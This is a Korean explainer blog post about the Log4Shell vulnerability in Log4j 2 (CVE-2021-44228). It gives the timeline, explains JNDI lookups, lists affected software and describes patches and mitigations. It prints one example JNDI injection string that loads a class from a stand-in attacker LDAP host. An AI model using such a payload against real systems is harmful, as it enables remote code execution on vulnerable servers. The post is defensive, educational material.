 > 본 글은 이번 달 새로 발견된 Log4j 보안 취약성에 대해 알아보기 위해 작성한 글이다.  
> 참고로 현재 발견된 Log4j의 문제는 1.x에서는 해당되지 않으나 1.x에는 다른 보안 취약성이 많이 존재하므로 업데이트를 추천한다.


## 1. 어쩌다 발견되었나? 🤔
![mincraft img](./images/minecraft.png)  
마인 크래프트라는 게임을 한번쯤은 들어본 적이 있을 것이다.  
이번 사태는 해당 게임의 기술자를 통해 본격적으로 널리 알려지게 되었다.

### 11/24
- 알리바바에 의해 취약점 발견

### 12/10
- PaperMC가 Discord를 통해 긴급 패치된 파일로 업데이트 하도록 긴급 공지  
  (PaperMC: 마인크래프트의 마크 멀티플레이 버킷 서비스)
- GitHub Advisory Database에 `CVE-2021-44228` 취약점 게재  
  (GitHub Advisory Database: 오픈소스 sw의 알려진 보안 취약점에 대한 db web site)
- 마인크래프트 기술 책임자가 본인 트위터 및 마인크래프트 홈페이지에 해당 내역 발표

이와 관련해 `CVE-2021-45046`, `CVE-2021-4104`까지 여러 취약점이 나왔다.

<details>
<summary>🔻 기타 관련 취약점</summary>
<div markdown="1">

- CVE-2021-44228: 원격 코드 실행 취약점
- CVE-2021-45046: 서비스 거부 취약점
- CVE-2021-4104: 원격 코드 실행 취약점 (Log4j 1.2 버전)

</div>
</details>


## 2. 취약점의 원인 👿
![log4j img](./images/log4j.png)  
취약점의 원인은 Log4j 2에 있다.  
Log4j란 Java 기반의 로깅 프레임워크 오픈 소스이다.  
Java에서 로그를 사용한다면 다 한번쯤은 써봤고 정말 많은 기업들이 사용하는 프레임워크라 이와 같은 이슈화가 됐다.

이 Log4j 라이브러리를 통해 zero-day 공격이 가능하다.  
어떤 상황에서는 사용자가 입력한 데이터가 로그로 남기도 한다.  
이 사용자 입력에 특수 문자를 포함하거나 log4j의 컨텍스트에서 기록되어야 하는 경우, Java 메소드 조회가 호출되며 LDAP 서버에서 사용자 정의한 원격 클래스를 실행한다.  
이로 인해 취약한 Log4j 2 인스턴스를 사용하는 서버에서는 RCE로 이어진다.

<details>
<summary>🔻 zero-day 공격이란?</summary>
<div markdown="1">

무엇이 잘못 되었는지 깨닫지 못한, 아직 발견하지 못한 결함이 존재한다고 가정하자.  
이 결함을 악용하면 zero-day 공격이라고 한다.

개발자가 취약점을 발견하고 수정하기도 전에 공격자가 악성코드를 공개해 제로데이라고 부른다.  
패치가 작성 및 사용되면 더 이상 제로데이 공격이라 부르지 않으며 이 공격은 발견되기가 드물다.

</div>
</details>

<details>
<summary>🔻 RCE란?</summary>
<div markdown="1">

- = Remote Code Execution
- 위험한 컴퓨터 취약점의 일종.
- 공격자가 타겟 시스템에 악의적인 코드를 원격으로 실행시킬 수 있도록 한다.

</div>
</details>

### 🐱‍👓 더 자세히 살펴보자.
Log4j 2.x는 사용자가 Log4j 설정을 유연하게 변경할 수 있도록 lookup이라는 메커니즘을 제공한다.
```
Lookups provide a way to add values to the log4j configuration at arbitrary places.
They are a particular type of Plugin that implements the StrLookup interface.
```

기본적으로 로그 메소드를 호출하면 Log4j 2.x는 각 로그에 `${`가 있는지 확인한다.  
Java의 lookup 메소드가 `${` 뒤에 올 실제 값들을 찾는다.  
예를 들어 `${` 뒤에 `java:runtime`, `java:vm`, `java:os`와 같은 문자열이 온다면 lookup 메소드는 이에 상응하는 값으로 치환할 것이다.

```
java:runtime -> Java(TM) SE Runtime Environment (build 1.7.0_67-b01) from Oracle Corporation
java:vm -> Java HotSpot(TM) 64-Bit Server VM (build 24.65-b04, mixed mode
java:os -> Windows 7 6.1 Service Pack 1, architecture: amd64-64.
```

Jndi lookup, JVM Input Arguments Lookup, Web Lookup 등 lookup에는 다양한 유형이 존재한다.  
여기서 Jndi lookup 같은 경우에는 JNDI로부터 값을 가져오는 것이 가능하고 LDAP이나 RMI 같은 원격 lookup을 위해 여러 프로토콜을 지원한다.

로그에서 공격자가 아래와 같은 strings를 포함시켰다고 가정하자.  
공격자가 제어하는 LDAP 서버의 악성 Java 클래스를 넣었다.
```
${jndi:ldap://www.attacker.com/malicious_java_class}
```
Java의 lookup 메소드는 악성 Java 클래스를 실행하게 된다.

<details>
<summary>🔻 JNDI란?</summary>
<div markdown="1">
= Java Naming and Directory Interface  
제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 Java API  
모든 자원 객체들은 고유하고 사용자에게 친숙한 JNDI 이름으로 식별  
J2EE 플랫폼의 일부
</div>
</details>

<details>
<summary>🔻 LDAP이란?</summary>
<div markdown="1">

= Lightweight Directory Access Protocol  
TCP/IP, 인터넷 환경에서 손쉽게 디렉터리 서비스를 수용할 수 있는 디렉터리 접근 제어 및 이를 위한 프로토콜  
사용자 인증 및 정보 객체 등록 및 검색 서비스로 주로 적용  
관리하는 정보를 읽고 검색하는 것에 특화

</div>
</details>

## 3. 악용될 수 있는 범위 😭

많은 서비스들이 이 취약점에 시달리고 있다.  
Steam, Apple iCloud 같은 클라우드 서비스들을 포함해 많은 서비스들이 대응 완료 또는 진행중이다.

### 영향받는 버전
Log4j 2.x ~ 2.15.0-rc1  
(2버전 미만은 해당 문제는 적용되지 않지만 많은 취약점이 존재하므로 업데이트를 권장)

### 영향받는 소프트웨어
- Apache Struts
- Apache Solr
- Apache Druid
- Apache Flink
- ElasticSearch
- Flume
- Apache Dubbo
- Logstash
- Kafka
- Spring-Boot-starter-log4j2

## 4. 대응 방법 👊
Java 8의 경우에는 `Log4j 2.16.0`,  
Java 7의 경우에는 `Log4j 2.12.2` 버전을 권고하고 있다.

JndiLookup 클래스를 경로에서 직접 제거할 수 있으나 임시 조치에 불과하다.
```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### Spring boot
`spring-boot-starter-logging`에 포함된 `log4j-ot-slf4j`와 `log4j-api` jar는 악용될 수 없다고 밝혔다.  
다만 `log4j-core`는 취약점에 해당되는데 12/23에 `2.5.8`과 `2.6.2` 버전의 release를 예정해두었다.  
그 전까지는 임의로 종속성을 overriding해서 사용하면 될 것 같다.

***
참고
- Paloalto Network - [Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
- wiki - [Log4j 보안 취약점 사태](https://namu.wiki/w/Log4j%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EC%82%AC%ED%83%9C?from=2021%EB%85%84%20%EC%9E%90%EB%B0%94%20%EB%B3%B4%EC%95%88%20%EC%B7%A8%EC%95%BD%EC%A0%90%20%EC%82%AC%ED%83%9C)
- 전자 정부 표준 프레임워크 - [Log4j 보안 업데이트 긴급 공지](https://www.egovframe.go.kr/home/ntt/nttRead.do?menuNo=74&bbsId=6&nttId=1838)
- fireeye - [zero-day](https://www.fireeye.kr/current-threats/what-is-a-zero-day-exploit.html)
- encyclopedia - [RCE](https://encyclopedia.kaspersky.com/glossary/remote-code-execution-rce/)
- Spring boot - [Log4J2 Vulnerability and Spring Boot](https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot)
- unit42 - [apache log4j vulnerability](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
- lunasec - [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- docs.oracle - [JNDI](https://docs.oracle.com/cd/E19823-01/819-1552/jndi.html)
- IT 용어 위키 - [LDAP](https://seb.kr/w/LDAP)